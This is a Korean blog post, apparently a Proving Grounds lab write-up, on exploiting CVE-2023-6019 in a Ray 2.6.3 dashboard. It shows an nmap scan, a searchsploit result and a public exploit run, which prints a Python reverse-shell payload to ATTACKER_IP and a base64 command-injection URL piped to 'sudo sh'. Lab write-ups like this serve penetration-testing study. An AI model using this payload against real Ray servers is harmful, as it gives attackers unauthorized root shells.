



---
layout: post
title:  "[PG][Linux] CVE-2023-6019"
date:   2026-11-08 12:06:00 +09:00
featured: /assets/images/oscp-pg/linux/cve-2023-6019/image.png
categories: PG Linux
---## 정보 수집
nmap을 통해 포트 스캔을 수행함.
```
└─$ nmap -p$ports -sC -sV -Pn 192.168.107.37
Starting Nmap 7.95 ( https://nmap.org ) at 2026-10-18 12:17 EDT
Nmap scan report for 192.168.107.37
Host is up (0.17s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 62:36:1a:5c:d3:e3:7b:e1:70:f8:a3:b3:1c:4c:24:38 (RSA)
|   256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)
|_  256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)
9000/tcp  open  http    aiohttp 3.9.1 (Python 3.8)
|_http-server-header: Python/3.8 aiohttp/3.9.1
|_http-title: Ray Dashboard
35749/tcp open  grpc
38377/tcp open  unknown
38407/tcp open  grpc
40933/tcp open  grpc
43863/tcp open  grpc
44217/tcp open  http    WSGIServer 0.2 (Python 3.8.10)
|_http-title: Site doesn't have a title (text/plain; version=0.0.4; charset=utf-8).
|_http-server-header: WSGIServer/0.2 CPython/3.8.10
44227/tcp open  http    WSGIServer 0.2 (Python 3.8.10)
|_http-title: Site doesn't have a title (text/plain; version=0.0.4; charset=utf-8).
|_http-server-header: WSGIServer/0.2 CPython/3.8.10
|_http-trane-info: Problem with XML parsing of /evox/about
44993/tcp open  grpc
50660/tcp open  unknown
52365/tcp open  http    aiohttp 3.9.1 (Python 3.8)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
|_http-server-header: Python/3.8 aiohttp/3.9.1
56977/tcp open  http    WSGIServer 0.2 (Python 3.8.10)
|_http-title: Site doesn't have a title (text/plain; version=0.0.4; charset=utf-8).
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-server-header: WSGIServer/0.2 CPython/3.8.10
62790/tcp open  grpc
```

브라우저를 통해 9000포트 의 info 경로 접근 시 Ray Version 2.6.3를 사용하는 것을 확인할 수있음.


searchsploit으로 RCE PoC코드 존재함는 것을 확인.
```
└─$ searchsploit Ray v2.6.3   
--------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                       |  Path
--------------------------------------------------------------------- ---------------------------------
Ray OS v2.6.3 - Command Injection RCE(Unauthorized)                  | python/webapps/51978.txt
--------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## 초기 침투 및 권한 상승
해당 PoC는 사용방법이 없어서 인자값없이 실행시켜봄. 실행시킨 결과 -h 옵션을 사용할 수 있는 것을 확인했으며, 해당 옵션으로 사용 방법을 알게됨.


위 방법과 같이 타겟 ip:port와 공격자 ip:port를 입력한 뒤 실행.
```
└─$ python 51978.py -t 192.168.107.37 -p 9000 -L ATTACKER_IP -P 9988
http://192.168.107.37:9000
[*] Checking in url: http://192.168.107.37:9000
[*]Payload is: python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",9988));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
[*]Base64 encoding payload is: cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjE5Mi4xNjguNDUuMjQyIiw5OTg4KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG9ydCBwdHk7IHB0eS5zcGF3bigiL2Jpbi9iYXNoIikn
http://192.168.107.37:9000/worker/cpu_profile?pid=3354&ip=192.168.107.37&duration=5&native=0&format=`echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjE5Mi4xNjguNDUuMjQyIiw5OTg4KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG9ydCBwdHk7IHB0eS5zcGF3bigiL2Jpbi9iYXNoIikn |base64$IFS-d|sudo%20sh`
```

위 과정을 걸친 뒤 공격자 pc에서 열어둔 netcat에 리버스 쉘이 확인됨.


